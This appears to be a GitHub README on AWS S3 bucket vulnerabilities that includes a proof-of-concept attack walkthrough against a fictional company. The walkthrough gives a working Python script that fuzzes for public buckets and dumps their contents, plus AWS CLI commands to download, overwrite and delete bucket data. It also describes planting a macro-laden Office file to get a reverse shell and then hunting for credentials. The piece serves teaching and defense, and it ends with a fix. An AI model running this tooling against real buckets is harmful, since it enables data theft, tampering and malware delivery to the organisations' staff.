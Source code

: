 # AWS S3 Bucket Vulnerabilities

## Overview
Amazon S3 (Simple Storage Service) is a scalable object storage service provided by AWS. While it is designed for high availability, scalability, and secure storage of data, misconfigurations and misuse can lead to serious security vulnerabilities. Understanding these vulnerabilities is crucial for securing your data effectively.

## Common Vulnerabilities

### 1. **Misconfigured Bucket Permissions**
   - **Public Access:** S3 buckets can be configured to allow public access, either intentionally or accidentally. This can lead to unauthorized data exposure and breaches.
   - **Complex Access Policies:** Errors in bucket policies or IAM (Identity and Access Management) roles can result in unintended permissions, potentially allowing unauthorized users to access or modify data.

### 2. **Unsecured Data Transfers**
   - **Data in Transit:** Data not using SSL/TLS encryption during transfer is susceptible to interception by malicious actors.
   - **Encryption at Rest:** Failure to enable encryption at rest allows physically accessed data to be readable.

### 3. **Poor Logging and Monitoring**
   - **Lack of Auditing:** Without proper logging (like AWS CloudTrail logs), it's difficult to detect or react to unauthorized access or other malicious activities.
   - **Insufficient Monitoring:** Failing to monitor access and activities around S3 buckets can delay the detection of a security breach.

### 4. **Outdated Data Management Policies**
   - **Retention Policies:** Improperly managed data lifecycle policies can lead to retaining sensitive data longer than necessary, increasing the risk if the bucket is compromised.
   - **Deletion Policies:** Accidental or malicious deletion of important data due to lack of safeguards or backup strategies.

### 5. **Cross-Origin Resource Sharing (CORS) Misconfiguration**
   - **Insecure CORS Settings:** Incorrectly configured CORS settings can allow unauthorized websites to interact with your bucket, potentially leading to data theft or loss.

## Best Practices for Securing S3 Buckets
1. **Enable Bucket Encryption:** Always use server-side encryption (SSE) to protect data at rest.
2. **Use Secure Transport Protocols:** Enforce the use of HTTPS to secure data in transit.
3. **Implement Strong Access Controls:** Use IAM roles and bucket policies to strictly control who can access the data.
4. **Enable Logging and Monitoring:** Utilize AWS CloudTrail and other monitoring tools to keep an eye on bucket usage and access patterns.
5. **Regularly Review Permissions:** Periodically audit S3 buckets and IAM roles to ensure only necessary permissions are granted.

# Performing a PoC Attack on a vulnerable s3 Bucket

## Reconning an organization and scanning for misconfigured s3 buckets

Given a Website for a fake company `Sage` we can generate a wordlist that we can use for fuzzing webpages, subdomains, usernames, and s3 buckets.

We will use cewl to generate the wordlist: `cewl http://34.237.3.44/ -w bucket-names.txt`

Next: we'll fast-forward to fuzzing for s3 buckets. Here I have a custom Python3 script that takes in a wordlist and fuzzes for s3 buckets that are publically accessible.

```
import argparse
import requests
from colorama import Fore, Back, Style
from colorama import init
init(autoreset=True) 

def scan_4_public_access(bucket_names):
    for bucket_name in bucket_names:
        url = f'http://{bucket_name}.s3.amazonaws.com/'
        response = requests.get(url)
        if response.status_code == 200:
            print(Fore.RED + Style.BRIGHT + f"*** Bucket {bucket_name} -- HIT!!! Publicly accessible! Dumping contents!*** ")
            print(response.text)  # This will print the contents of the bucket, if listing is enabled.
        else:
            print(Fore.GREEN + f"Bucket {bucket_name} -- miss")


def parse_wordlist(filename):
    """Reads a wordlist file and returns a list of lines."""
    try:
        with open(filename, 'r') as file:
            return [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print(f"Error: The file '{filename}' does not exist.")
        return []
    except IOError as e:
        print(f"Error: Could not read file '{filename}'. {e}")
        return []


def main():
    parser = argparse.ArgumentParser(description="Parse a wordlist into a list.")
    parser.add_argument('wordlist', type=str, help="Filename of the wordlist")
    
    args = parser.parse_args()
    
    # Parse the wordlist file into a list called bucket_names
    bucket_names = parse_wordlist(args.wordlist)
    
    # Optionally, print or process the bucket_names list here to demonstrate functionality
    print("Scanning buckets for public access!")

    scan_4_public_access(bucket_names)


if __name__ == "__main__":
    main()
```

## Steal, manipulate, upload malware

We can manipulate the data with aws cli tools

* **List bucket contents** `aws s3 ls s3://securetrust/`
* **Download bucket data** `aws s3 cp s3://securetrust/ . --recursive`
* **Upload to bucket** `aws s3 cp scan.py s3://securetrust/`
* **Delete bucket data** `aws s3 rm s3://securetrust/fraudTrain.csv`

**Uploading Malware**

We can upload infected Microsoft Office documents to the bucket in hopes that an employee who manages AWS Sagemaker will open it out of curiosity.

Here is a Macro embedded into a Microsoft Office file that will connect to a command and control server that I control. 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3ec9efb7-f380-4276-b0bf-37b8a3b60b73)

**Getting a reverse shell**

Once the user opens the document a reverse shell is triggered: 

![image](https://github.com/caadams4/s3-killchain/assets/79220528/096135b4-cce4-4879-b6ac-144e021ab17f)

**Post-Exploitation**

After obtaining access to the victim machine, it will be necessary to perform privilege escalation plunder the contents of their files in search of IAM or other AWS credentials stored in environment variables or credential files. 

## A simple fix

The s3 bucket we exploited was publically accessible with read/write privileges. To fix this create another new bucket checking `ACLs disabled` and enable `Block Public Access` during creation.  

![image](https://github.com/caadams4/s3-killchain/assets/79220528/3b5e6756-355c-4b74-87c4-b0b56fc29a31)




## Conclusion
Securing an AWS S3 bucket requires careful attention to configuration settings and access controls. By understanding common vulnerabilities and adopting best practices, organizations can significantly mitigate risks associated with S3 storage.
